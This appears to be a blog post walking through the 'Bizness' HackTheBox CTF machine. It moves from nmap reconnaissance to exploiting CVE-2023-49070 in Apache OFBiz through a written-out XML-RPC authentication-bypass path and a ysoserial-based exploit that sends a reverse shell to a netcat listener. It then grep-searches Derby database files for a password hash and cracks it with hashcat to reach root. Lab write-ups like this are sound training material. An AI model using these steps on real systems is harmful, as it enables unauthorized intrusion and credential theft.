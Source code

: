 ```yaml
---
title: "CTF: Bizness (HtB, Linux, Easy)"
excerpt: "A detailed walkthrough of \"Bizness\" machine on HackTheBox."
tagline: ""
header:
  teaser: /docs/assets/images/teasers/ctf/bizness.png
  og_image: /docs/assets/images/teasers/ctf/bizness.png
  overlay_image: /docs/assets/images/teasers/ctf/bizness3.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Linux
  - Difficulty-Easy
  - Apache OfBiz
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Bizness" machine on HackTheBox platform that is based on Linux operating system and categorized as "Easy"
by difficulty (in reality, HtB staff has their own understading of difficulty levels, so this one can't be defined as "Easy" in the literal sense of the word!). The machine involves exploitation of CVE-2023-49070 - "Authentication Bypass Vulnerability in Apache OfBiz".

## Reconnaissance

To discover open ports and services on the machine, a classic tool **nmap** was utilized with the following commands:
```bash
nmap 10.10.11.252 -p- # scan all sports
nmap -sV 10.10.11.252 -p 80,443,8888,35309,40953 # perform version enumeration on interesting ports
```
Below are the results of nmap enumeration:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

Our ports of interest are 80 (http) and 443 (https) open. Port 8888 with SimpleHTTPServer was open by another player who already had a foothold on the system, so we will ignore it. Let's navigate to port 80 by browsing to *http://<MACHINE-IP>* (add "bizness.htb" with the IP address to resolv.conf file on your machine). The server redirects us to the HTTPs port on the machine and reveals a webpage:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/biznesssite.png" alt="">
  <figcaption></figcaption>
</figure>

If one scrolls the page down to the very end, they will find that the website is powered by **Apache OfBiz**. This will be our research vector that will prepare us for the Weaponization phase. Other Reconnaissance techniques such as subdomain enumeration, path traversal, directory bruteforcing and others led to no result.

### CVE-2023-49070

Searching for existing vulnerabilities, the eye-catching was a recent one listed under **CVE-2023-49070**. It describes an authentication bypass possible due to flawed logic in handling password change parameters in XML-RPC code. Attacks can leverage this technique to achieve Remote Code Execution on the target through Insecure Object Deserialization vulnerabilities discovered previously in Apache/Java backends.

> How CVE-2023-49070 Works\
Pre-auth RCE Apache Ofbiz 18.12.09#POC:
/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y
\
This vulnerability concerned an authentication bypass related to the deprecated XML-RPC interface in OFBiz. Specifically the logic checked for a requirePasswordChange parameter and would return requirePasswordChange even with empty or invalid credentials. This allowed the later authentication check to be skipped.

For those interested in developing a deeper understanding, you are welcome to visit the source [article](https://thesecmaster.com/fixing-authentication-bypass-vulnerabilities-in-apache-ofbiz-cve-2023-49070-cve-2023-51467/) with CVE description.

## Weaponization

Explore GitHub for available exploits that could help us achieve foothold on the system. The are several repositories available for the CVE of interest, the exploit that has worked for the author can be downloaded from [here](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py).

In order to use the exploit, one has to take some time to adapt it and make it work. Firstly, it requires the use of **ysoserial**, which is a proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization. You can find the tool (filename: "ysoserial-all.jar") [here](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar). Place it in the <ins>same directory</ins> as the exploit downloaded previously.

Additionally, the exploit requires <ins>Java version 11</ins> to run. Install it with the following command:
```bash
sudo apt-get install openjdk-11-jre
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

Configure Java to use Java 11:
```bash
sudo update-alternatives --config java
1 # your list may have a different order, select the number that corresponds to Java 11
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11config.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

It's time to strike!

## Exploitation / Foothold

* Start a reverse shell listener with Netcat on the desired port:
```bash
nc -lnvp <port>
```

* Run the prepared exploit with the "shell" option to send a reverse shell to the Netcat listener:
```bash
python3 exploit.py https://bizness.htb/ shell <ip>:<port>
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/exploit.png" alt="">
  <figcaption>Running the exploit.</figcaption>
</figure>

If everything was configured and executed correctly, a reverse shell will be sent to the attacker's machine:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/revshell.png" alt="">
  <figcaption>Foothold achieved.</figcaption>
</figure>

### User flag

Navigate to the ofbiz user $home directory and obtain the flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/userflag.png" alt="">
  <figcaption>+10 points!</figcaption>
</figure>


## Privilege Escalation

It is known that we are dealing with Apache OfBiz. By analzying its official [documentantion](https://cwiki.apache.org/confluence/display/OFBIZ/Home) as well as other resources, it is possible to discover that the default database used by the application is a Derby database. To discover its location on the system, one may execute the following command:

```bash
find / -type d -iname "derby" 2> /dev/null #Find the specified directory and redirect error output to /dev/null
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/findderby.png" alt="">
  <figcaption>Database location discovered.</figcaption>
</figure>

Navigate to */opt/ofbiz/runtime/data/derby/ofbiz/seg0* directory and discover a list of .dat database files in there. The administator password hash can be discovered by searching for the string "password=" in all files with the following command:

```bash
find *.dat | xargs grep -a -i "password="
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/passwordhash.png" alt="">
  <figcaption>Administrator password hash discovered.</figcaption>
</figure>

Unfortunately, this is <ins>NOT</ins> a straight hash to crack. The challenger has to spend time to analyze the [source code](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) of the application's hashing function to figure out how password hash is generated and then reverse the process.
According to the source code, the password string get converted to a hexadecimal value, then to Base64 (URL-safe) with the salt specified after the hash type. In our case, the salt is "d" in the full hash string. It is possible to obtain the required hash value to crack using CyberChef. Decode the hash value from Base64 (selecting "URL Safe" from the "Alphabet" dropdown menu), then convert it to Hex and use the rule to remove the spaces for your comfort. The process is shown on the screenshot below:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/cyberchef.png" alt="">
  <figcaption></figcaption>
</figure>

Now, it has become possible to use Hashcat to crack the final hash value that was obtained. Supply it to Hashcat in the format \<hash\>:\<salt\> with the following flags:

```bash
hashcat -a 0 -m 120 <hash>:<salt> /path/to/wordlist
#-a 0 => Dictionary attack mode
#-m 120 => SHA1 hash type
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/hashcracked.png" alt="">
  <figcaption>Password discovered.</figcaption>
</figure>

### Root flag

Use discovered password to log in as **root** on the system and get the flag:

```bash
su root
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/root.png" alt="">
  <figcaption>+20 points!</figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
